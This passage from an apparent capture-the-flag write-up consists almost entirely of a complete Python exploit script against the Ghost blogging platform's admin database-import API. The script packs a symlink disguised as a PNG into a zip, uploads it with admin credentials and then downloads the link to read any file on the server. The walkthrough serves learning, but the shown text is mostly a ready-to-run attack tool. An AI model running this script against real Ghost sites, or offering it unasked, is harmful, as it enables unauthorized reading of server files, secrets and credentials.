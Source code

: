 ### Script Exploit

#### Generate POC

This is a really nice beginner level exploit to develop based on what I demonstrated above. I’ll walk through the process in [this video](https://www.youtube.com/watch?v=pLgjI7gVwLc):

My final script is:

```

import io
import random
import requests
import string
import sys
import zipfile

# process inputs
if len(sys.argv) != 5:
    print(f"usage: {sys.argv[0]} <host> <username> <password> <file to read>")
    sys.exit()
hostname = sys.argv[1] if sys.argv[1].startswith('http') else f'http://{sys.argv[1]}'
username = sys.argv[2]
password = sys.argv[3]
target_file = sys.argv[4]

# create zip (in memory)
filename = ''.join(random.choices(string.ascii_letters, k=8)) + '.png'
file_path = f'content/images/{filename}'

zip_buffer = io.BytesIO()
with zipfile.ZipFile(zip_buffer, "w") as zip_file:
    zipInfo = zipfile.ZipInfo(file_path)
    zipInfo.create_system = 3 # UNIX
    zipInfo.external_attr |= 0xA0000000  # 0o120777 << 16
    zip_file.writestr(zipInfo, target_file)
zip_buffer.seek(0)

# login
sess = requests.session()
sess.post(
    f'{hostname}/ghost/api/admin/session',
    data={
        "username": username,
        "password": password
    }
)

# post to api
sess.post(
    f'{hostname}/ghost/api/admin/db/',
    files={'importfile': ('archive.zip', zip_buffer, 'application/zip')}
)

# read and display results
resp = requests.get(f'{hostname}/{file_path}')
if resp.status_code == 200:
    print(resp.text)
elif resp.status_code == 404:
    print(f'file not found: {target_file}')
elif resp.status_code == 500:
    print(f'unable to access: {target_file}')

```